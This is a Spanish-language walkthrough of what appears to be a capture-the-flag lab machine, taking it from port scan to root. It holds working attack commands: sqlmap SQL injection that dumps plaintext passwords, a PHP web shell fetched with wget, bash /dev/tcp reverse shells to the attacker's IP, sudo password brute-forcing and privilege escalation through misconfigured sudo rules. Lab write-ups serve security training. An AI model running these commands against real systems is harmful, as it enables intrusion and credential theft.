 # INTRUSIÓN 

Iniciamos haciendo un escaneo de nmap con el siguiente comando "nmap -p- --open --min-rate 5000 -sS -vvv -n -Pn 172.17.0.2"

![nmap](./imagenes/nmap.png)


Vemos que el puerto 80 y 22 están abiertos, así que exploraremos el puerto 80.

Puerto 80:

![Puerto 80](./imagenes/puerto80.png)

Lo mas interesante que vemos es el botón de login, así que lo presionamos y nos redirecciona a un panel de login. 

Luego de intentar con credenciales tipicas como "admin:admin", "root:root" y ver que no funcionan intentamos poner una comilla para ver si es vulnerable a inyección sql. Al hacerlo comprobamos que es vulnerable así que podemos proceder a usar sqlmap.

"sqlmap -u "http://172.17.0.2/login_page/index.php" --forms --batch "

sqlmap encuentra lo siguiente:

![sqlmap](./imagenes/sqlmap.png)

Ahora vamos a listar las bases de datos con "sqlmap -u "http://172.17.0.2/login_page/index.php" --forms --batch --dbs" nos encuentra una llamada 'users', luego vemos las tablas de esa base de datos con "sqlmap -u "http://172.17.0.2/login_page/index.php" --forms --batch -D users --tables" y nos muestra una tabla llamada 'usuarios'. Ahora veremos que contiene con "sqlmap -u "http://172.17.0.2/login_page/index.php" --forms --batch -D users -T usuarios --dump". Nos encuentra tres usuarios y vemos que sus contraseñas estan guardadas de manera insegura en texto.

![usuarios](./imagenes/usuarios.png)

Ahora pruebo en el login uno por uno y el mas interesante es el usuario 'joe' que tiene un panel para ejecutar codigo de python. Lo primero que se me ocurre es subir un archivo .php que nos permita enviarnos una reverse shell. Pero primero debemos crearnos la reverse shell en nuestra maquina local con el siguiente codigo en su interior:

```php
<?php
      system($_GET['cmd']);
?>
```

Abriremos un servidor de python con "python3 -m http.server 9090" y  luego escribiremos el siguiente codigo:

```python
import os

os.system("wget nuestraip:9090/shell.php") 
```

vemos si se creó con éxito usando 

```python
import os
os.system("ls")
```

Al ver que se creó con éxito usamos el mismo código pero reemplazando 'ls' por 'chmod +x shell.php'. Ahora intentamos entrar desde el navegador y agregaremos lo siguiente en la barra de búsqueda para ver si funciona el script; '?cmd=whoami'. Comprobamos que funciona y ya nos podemos enviar una reverse shell a nuestra ip escuchando con netcat. Para hacerlo ponemos en el terminal:

```bash
nc -nlvp 443
```

y en la barra de búsqueda en vez de 'whoami' ponemos:

```bash
bash -c 'bash -i >%26 /dev/tcp/(nuestra ip)/443 0>%261'
```

y recibiremos la reverse shell.

# TRATAMIENTO DE LA TTY

para poder quedarnos con un terminal cómodo hacemos lo siguiente:

```bash
script /dev/null -c bash
^Z
stty raw -echo; fg 
	reset xterm
export TERM=xterm && export SHELL=bash
```

# ESCALADA DE PRIVILEGIOS 

Si vamos al directorio '/tmp' podemos ver un archivo llamado '.hidden_text.txt', vemos su interior y encontramos una mensaje para "martin" con una lista de trucos favoritas, supongo que esta el usuario "martin" pero al ver el archivo "passwd" veo que solo existe 'joe' y 'luciano'. Ahora para probar las contraseñas podemos usar el siguiente script [Sudo_BruteForce](https://github.com/Maalfer/Sudo_BruteForce) y para probar las contraseñas nos las metemos en un .txt en nuestra maquina local borrando el mensaje para martin y pasamos todas las letras a minuscula con :

```bash
tr '[:upper:]' '[:lower:]' < archivo.txt > archivo_minusculas.txt

```

una vez que lo tenemos en minusculas nos lo pasamos a la maquina victima e intentamos usarlo con el usuario joe. Nos encuentra la que contraseña de joe es "chittychittybangbang" asique ahora podemos escalar al usuario joe con su.

# JOE

Como tenemos la contraseña de joe podemos ejecutar sudo -l para ver si podemos ejecutar algo con sudo 

![joe-l](./imagenes/joe-l.png)

Vemos que lo unico que podemos ejecutar es "/bin/posh" como el usuario "luciano". Luego de buscar en [gtfobins](https://gtfobins.github.io/gtfobins/posh/#sudo) vemos que se puede escalar con "posh" usando:

```bash
sudo -u luciano posh
```

# LUCIANO

Ya en el perfil de luciano ponemos "bash" para tener un terminal mas comodo, y nuevamente "sudo -l". Vemos que luciano puede ejecutar como root lo siguiente:

![luciano-l](./imagenes/luciano-l.png)

Vamos al path del script usando "cd" y vemos que contiene. Al fijarnos vemos que parece tener un script para enviar una reverse shell, por lo que intentaremos modificarlo. Pero como no existe el binario nano ni vim tendremos que hacerlo con el comando "echo" de la siguiente manera:

```bash
echo -e '#!/bin/bash\n\nbash -c '"'"'exec 5<>/dev/tcp/(nuestra ip)/443; cat <&5 | bash >&5 2>&5'"'"'' > script.sh
```

Ya solo nos queda ponernos en escucha con netcat y ejecutar el script como root y listo.

![ROOT](./imagenes/ROOT.png)

Ya somos root